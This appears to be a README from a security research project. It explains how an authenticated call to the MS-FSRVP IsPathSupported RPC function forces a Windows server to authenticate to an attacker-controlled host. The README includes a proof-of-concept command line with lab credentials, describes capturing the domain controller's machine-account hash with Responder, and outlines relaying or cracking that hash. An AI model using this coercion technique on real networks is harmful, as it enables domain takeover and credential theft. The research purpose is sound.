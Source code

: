# MS-FSRVP - Remote call to IsPathSupported (opnum 8)

## Summary

+ **Protocol**: [[MS-FSRVP]: File Server Remote VSS Protocol](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-fsrvp/dae107ec-8198-4778-a950-faa7edad125b)

+ **Protocol UUID**: a8e0653c-2744-4389-a61d-7373df8b2292

+ **Protocol version**: 1.0

+ **SMB Named pipe**: `\\pipe\FssagentRpc`

+ **Function name**: [`IsPathSupported`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-fsrvp/f0f0166f-0795-4b2f-8567-ff6a6cfb71cb)

+ **Function operation number**: `8`

+ **Authenticated**: Yes


## Description

In order to call a remote procedure to trigger an authentication from the remote machine to an arbitrary target, we first need to authenticate to the remote machine, usually on SMB. Then we need to connect to the remote SMB pipe `\\pipe\FssagentRpc` and bind to the desired [`MS-FSRVP`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-fsrvp/dae107ec-8198-4778-a950-faa7edad125b) protocol (with uuid `a8e0653c-2744-4389-a61d-7373df8b2292` and version `1.0`) in order to perform remote procedure calls to functions in the [`MS-FSRVP`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-fsrvp/dae107ec-8198-4778-a950-faa7edad125b) protocol.

The IP 192.168.2.51 being my attacking machine where I listen with Responder, and 192.168.2.1 being the IP of my Windows Server. When starting this script, it will authenticate and connect to the remote pipe named `\\pipe\FssagentRpc` This pipe is connected to the protocol [[MS-FSRVP]: File Server Remote VSS Protocol](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-fsrvp/dae107ec-8198-4778-a950-faa7edad125b) and allows to call RPC functions of this protocol. We will then call the remote [`IsPathSupported`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-fsrvp/f0f0166f-0795-4b2f-8567-ff6a6cfb71cb) function on the remote Windows Server (192.168.2.1) with the following parameters:

```cpp
IsPathSupported('192.168.2.51\x00')
```

We can try this with this proof of concept code ([coerce_poc.py](./coerce_poc.py)):

```bash
./coerce_poc.py -d "LAB.local" -u "user1" -p "Podalirius123!" 192.168.2.51 192.168.2.1
```

![](./imgs/poc.png)

This will force the Windows Server (192.168.2.1) to authenticate to the SMB share `\\192.168.2.51\share` and therefore authenticate using its machine account (`DC01$`).  After this RPC call, we get an authentication from the domain controller with its machine account directly on Responder:

![](./imgs/hash.png)

After this step, we relay the authentication to other services in order to elevate our privileges, or try to downgrade it to NTLMv1 and crack it in order to get the NT hash of the domain controller's machine account. This kind of vulnerabilities allows to quickly get from user to domain administrator in unprotected domains!


## Function technical detail

```cpp
DWORD IsPathSupported(
         [in] handle_t hBinding,
         [in] [string] LPWSTR ShareName,
         [out] BOOL* SupportedByThisProvider,
         [out] [string] LPWSTR* OwnerMachineName);
```

## References

+ Documentation of protocol [MS-FSRVP]: File Server Remote VSS Protocol: https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-fsrvp/dae107ec-8198-4778-a950-faa7edad125b

+ Documentation of function `IsPathSupported`: https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-fsrvp/f0f0166f-0795-4b2f-8567-ff6a6cfb71cb